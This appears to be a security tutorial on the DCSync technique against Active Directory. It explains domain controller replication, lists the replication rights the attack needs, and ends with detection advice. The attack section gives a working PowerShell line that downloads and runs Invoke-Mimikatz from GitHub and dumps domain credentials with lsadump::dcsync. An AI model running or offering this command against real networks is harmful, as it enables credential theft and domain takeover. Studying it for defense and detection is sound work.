


DCSync: Impersonate a Domain Controller
For “
DCSync” attack Microsoft did not issue any patch, as it only uses
legitimate APIs. “Fixing” it would mean forbidding DC replication. If it ain’t broke, don’t fix it. AD is not
broken.
What is Directory Replication Service (DRS)?For availability reasons,
administrators deploy more Domain Controllers in an Active Directory infrastructure. Each of these Domain
Controllers has a copy of the Active Directory database.
When changes/updates to a database of a Domain
Controller are done (for example when a new user is created), this change needs to be propagated to the other Domain
Controllers.
This is called Active Directory replication
How DCSync use Directory
Replication Service (DRS)?DCSync(a method of Mimikatz) using the GetNCChanges request, prompts a
Domain Controller to replicate user credentials back to the attacker using the Directory Replication Service (DRS)
Remote Protocol.
Perform DCSync from a Windows machine of the Domainpre-requisite: To have success with DCSync attack we need an account
with rights to perform domain replication.
We can perform DCSync if we have “Replicating Directory Changes”
permissions on the Windows Server:
Server Manager → Tools → Active Directory Users and Computers → View →
Advanced Features → Right click on the domain(e.g.:DANIELE.local) → proprieties → security ▪
Replicating Directory Changes
▪ Replicating Directory Changes All
▪ Replicating Directory Changes In
Filtered Set (rare, only required in some environments)
Note that members of the Administrators and Domain
Controller groups have these rights by default.
AttackIf we want we can specify a
specific user credential for lsadump::dcsync with /user:<user> for example “/user:krbtgt” or
“/user:administrator”
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"lsadump::dcsync /domain:daniele.local "'
Detection:DRSR network traffic should only
occur between domain controllers. If a company detects DRSR network traffic between a domain controller and a
workstation, it knows a dcsync attack took place
We can apply that by adding IP addresses of Domain Controllers
to the Replication Allow List. when DSGetNCChange requests originate outside that list of IPs an alert of Intrusion
Detection Systems(IDS) should occur.
Bibliography:
•
https://adsecurity.org/?p=1729